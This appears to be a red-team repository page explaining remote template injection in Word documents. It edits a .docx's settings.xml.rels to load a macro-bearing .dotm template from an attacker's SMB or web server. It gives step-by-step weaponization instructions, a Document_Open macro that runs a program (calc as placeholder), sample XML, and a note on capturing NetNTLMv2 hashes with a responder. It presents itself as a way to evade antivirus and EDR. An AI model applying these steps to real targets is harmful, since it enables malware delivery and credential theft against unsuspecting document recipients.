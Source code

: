 # Inject Macros from a Remote
Add a macros payload to a docx file indirectly, which has a good chance of evading some AVs/EDRs.

This technique works in the following way:
1. A malicious macro is saved in a Word template `.dotm` file
2. Benign `.docx` file is created based on one of the default MS Word Document templates
3. Document from step 2 is saved as `.docx`
4. Document from step 3 is renamed to `.zip`
5. Document from step 4 gets unzipped
6. `.\word_rels\settings.xml.rels` contains a reference to the template file. That reference gets replaced with a refernce to our malicious macro created in step 1. File can be hosted on a web server (http) or webdav (smb).
7. File gets zipped back up again and renamed to `.docx`
8. Done


## Weaponization
* `Alt+F8` to enter Dev mode where we can edit Macros, select ThisDocument and paste in:
```text
Sub Document_Open()

Set objShell = CreateObject("Wscript.Shell")
objShell.Run "calc"

End Sub
```
* Create a benign `.docx` file based on one of the provided templates and save it as `.docx`:

![1](https://github.com/Mehdi0x90/Red-Team/assets/17106836/7b4d1e47-2804-4d0b-a78e-580065056ffd)

* Rename `legit.docx` to `legit.zip`:

![2](https://github.com/Mehdi0x90/Red-Team/assets/17106836/9df077c5-82d2-437e-a817-18da8c55d907)



* Unzip the archive and edit `word_rels\settings.xml.rels`:
```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<Relationships xmlns="http://schemas.openxmlformats.org/package/2006/relationships"><Relationship Id="rId1" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/attachedTemplate" Target="file:///C:\Users\mantvydas\AppData\Roaming\Microsoft\Templates\Polished%20resume,%20designed%20by%20MOO.dotx" TargetMode="External"/></Relationships>
```

* Note it has the target template specified here:

![3](https://github.com/Mehdi0x90/Red-Team/assets/17106836/5e191779-1d51-47b6-9ba3-9aed0023d940)


* Upload the template created previously `Doc3.dot` to an **SMB server** (note that the file could be hosted on a web server also!).

* Update `word_rels\settings.xml.rels` to point to `Doc3.dotm`:

![4](https://github.com/Mehdi0x90/Red-Team/assets/17106836/f87bc48b-5f18-45ff-baca-e871eb800ce5)


* Zip all the files of legit archive and name it back to `.docx` - we now have a weaponized document.


> Note that this technique could be used to steal NetNTLMv2 hashes since the target system is connecting to the attacking system - a responder can be listening there.












































































